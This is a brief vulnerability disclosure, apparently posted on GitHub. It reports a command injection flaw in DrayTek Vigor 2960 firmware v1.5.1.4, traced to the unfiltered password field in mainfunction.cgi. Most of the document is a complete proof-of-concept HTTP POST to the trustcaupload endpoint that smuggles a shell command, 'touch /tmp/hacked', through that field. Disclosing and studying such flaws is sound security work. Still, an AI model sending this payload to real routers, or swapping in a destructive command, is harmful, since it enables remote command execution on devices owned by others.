



# Draytek vigor 2960 v1.5.1.4 has command injection vulnerability

## OverView

Product: Draytek Vigor 2960 v1.5.1.4(the newest version)
Firmware: v1.5.1.4 https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Detail  

This vulnerability is in function sub_1225C, file mainfunction.cgi. It does not filter var password, so we can achieve command injection. 





## poc 



```
POST /cgi-bin/mainfunction.cgi/trustcaupload HTTP/1.1
Host: xxxxx
Content-Length: 423
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: xxxxx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBtX2IODkwu3BgXtR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,
image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: xxxxx
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: lang=en; SESSION_ID_VIGOR=7:26EB81E4EA6DC603661320EBD1C938DC
Connection: close
------WebKitFormBoundaryBtX2IODkwu3BgXtR
Content-Disposition: form-data; name="selectfile"; filename="hack.pem"
Content-Type: application/x-compressed
hack
------WebKitFormBoundaryBtX2IODkwu3BgXtR
Content-Disposition: form-data; name="select"
11111
------WebKitFormBoundaryBtX2IODkwu3BgXtR
Content-Disposition: form-data; name="password"
1'&& touch /tmp/hacked;'
------WebKitFormBoundaryBtX2IODkwu3BgXtR--
```

